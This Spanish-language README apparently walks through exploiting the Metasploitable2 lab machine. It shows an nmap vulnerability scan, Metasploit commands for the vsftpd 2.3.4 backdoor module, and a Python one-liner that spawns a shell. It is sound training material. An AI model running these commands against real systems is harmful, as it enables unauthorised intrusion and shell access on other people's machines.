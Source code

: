 <p align="center">
<a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=60&color=19AC26FF&width=500&height=80&lines=Metasploitable2"></a>
</p>

**sourceforge:** https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**Paso 1:**

Escaneo de puertos y vulnerabilidades con nmap.

```
sudo nmap -sS -sV --script vuln 10.10.11.6
```

<p align="center">
<img src="./Img/escaneo.png">
</p>

**Paso 2**

Como podemos observar tiene vulnerabilidad en el puerto 21 y tiene como servicio vsftpd versión 2.3.4.

Para explotar esta vulnerabilidad vamos usar metasploit:

```
msfconsole

search vsftpd

use exploit/unix/ftp/vsftpd_234_backdoor

options
```

<p align="center">
<img src="./Img/metasploit.png">
</p>

cómo podemos ver tenemos que configurar la IP de la maquina vulnerable en
RHOSTS para poder acceder.


```
set RHOSTS 10.10.10.6

exploit
```

Ahora para poder generar un línea de comandor deberemos usar el sigueinte comando:

```python
python -c 'import os; os.system("/bin/sh")'

shell
```

<p align="center">
<img src="./Img/shell.png">
</p>